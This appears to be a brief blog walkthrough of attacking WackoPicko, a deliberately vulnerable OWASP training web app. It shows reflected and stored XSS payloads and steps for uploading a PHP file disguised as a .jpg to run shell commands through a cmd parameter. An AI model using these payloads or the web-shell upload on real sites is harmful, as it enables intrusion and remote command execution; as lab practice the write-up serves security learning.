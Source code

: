 ```yaml
---
layout: post
title: OWASP Broken Web Apps WackoPicko
slug: owasp-broken-web-apps-wackopicko
name: OWASP Broken Web Apps WackoPicko
---
```


Right off the bat, try hitting the search box with a simple XSS payload:

{% highlight javascript %}
search.php?query=<script>alert(1)<%2Fscript>&x=24&y=12
{% endhighlight %}

#/guestbook.php

Placing this:

{% highlight html %}
<script>confirm(1)</script>
<img src=x onerror='confirm(2)' />
{% endhighlight %}

into a comment body yields stored XSS

Next I made an account and started uploading stuff, turns out php files are uploadable and executable:

1. Make the file's name be: whatever.php
2. Make its extension: .jpg
3. Upload
4. Open the broken image on the page you're redirected to and open its URL in a new tab, remove the 550 from the URL
5. ?cmd=ls -latr



